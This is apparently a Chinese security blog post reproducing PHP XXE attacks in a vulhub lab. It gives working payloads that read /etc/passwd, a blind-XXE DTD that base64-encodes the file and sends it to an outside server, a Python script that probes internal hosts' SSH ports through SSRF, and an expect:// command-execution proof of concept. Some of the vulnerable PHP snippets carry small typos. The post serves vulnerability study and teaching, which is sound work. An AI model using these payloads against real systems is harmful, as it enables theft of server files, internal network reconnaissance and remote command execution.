 ```yaml
---
permalink: 2020/03/16/php-xxe/
tags:
  - XXE
layout: post
date: '2020-03-16 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: PHP XXE 利用过程演示
---
```


## XXE简介


在理解什么是XXE之前首先要知道什么是XML，XXE的全称为XML External Entity Injection，就是XML外部实体注入。XML是一种通用的数据交换语言，当处理数据时没有限制外部实体的使用，就可能会导致攻击者构造XML外部实体达到窃取数据，命令执行，钓鱼等行为。关于XML和XXE的详细介绍请查看[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)，本文重点通过实验介绍PHP XXE的几种利用。
本次演示使用的环境为：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)


## 获取敏感信息


通过XXE可以获取服务端的敏感信息，比如配置信息，系统文件，源代码等，有的环境是有回显的，有的是无回显的，有回显的相对比较容易操作。


### 有回显


先看源代码：


```php
<?php
$data = filegetcontents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```


payload:


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```


通过此paylod就可以回显/etc/passwd的内容：


![20200317174048.png](../post_images/47ba6fd45a8114d855065444f390a75d.png)


### 无回显


无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 `blind XXE`.


源代码：


```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
dom->loadXML(data);
```


![2020%2003%2017%2020%2011%20{second.png](../post_images/25f6d54e273c982d04a99a9546d10303.png)


如图，如果直接执行的话是没有任何回显的。可以使用http协议将请求发送到远程服务器上，从而获取文件内容。


首先在远程服务器写入一个dtd文件，例如`test.dtd`,文件内容如下：


> `%` 号需要实体16进制编码为 `&#x25;`


```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.2.1/%file;'>">
```


然后利用如下payload：


```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd">
%remote;%int;%send;
]>
```


就可以将数据外带到服务端：


![2020%2003%2017%2021%2006%20{second.png](../post_images/25f0e5cf3bcdc6420ff52fcc8bb04059.png)


执行逻辑大概如下：


从 payload 中能看到 连续调用了三个参数实体 `%remote`;`%int`;`%send`;，这就是我们的利用顺序，`%remote`先调用，调用后请求远程服务器上的`test.dtd` ，有点类似于将 `test.dtd`包含进来，然后 `%int` 调用 `test.dtd` 中的 `%file`, `%file` 就会去获取服务器上面的敏感文件，然后将 `%file` 的结果填入到 `%send` 以后(因为实体的值中不能有 `%`, 所以将其转成html实体编码 `&#x25`;)，我们再调用 `%send`; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


## SSRF


上面的两个实验中我们使用了file协议来读取文件内容或者通过http请求来外带信息，这种操作和SSRF很像，其实XXE也是SSRF攻击手法中的一种。接下来我们就演示使用SSRF探测内网主机开放端口和内网存活主机。


探测脚本如下，大家可根据实际情况修改脚本：


```python
import requests


def buildxml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    sendxml(xml)

def sendxml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.123.128:8080/dom.php', data=xml, headers=headers, timeout=5).text
    codedstring = x.split(' ')
    if codedstring[7] == "host":
        print("主机不存活")
    else:
        print ("主机存活，探测到的端口服务为：%s"%(codedstring[7]))


for i in range(125, 135):
    try:
        i = str(i)
        ip = '192.168.123.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + ':22'+'/'
        print(string)
        buildxml(string)
    except:
        continue
```


探测结果：


![2020%2003%2018%2014%2049%20{second.gif](../post_images/d984b0a9211f034cdefa9f1b0fc0fa1d.gif)


## expect RCE


当php安装了expect扩展后（此扩展默认未安装），攻击者就可以利用except进行远程代码执行的操作。


示例POC


```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```


除此外，XXE还可以造成DDOS,文件上传，钓鱼等攻击，由于环境原因，不便演示，在先知的[这篇文章](https://xz.aliyun.com/t/3357)中作者也有详细讲解，感兴趣的可以去看。


## 参考

- [浅谈XXE攻击](https://www.freebuf.com/articles/web/126788.html)
- [简析XXE](https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/)
- [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)
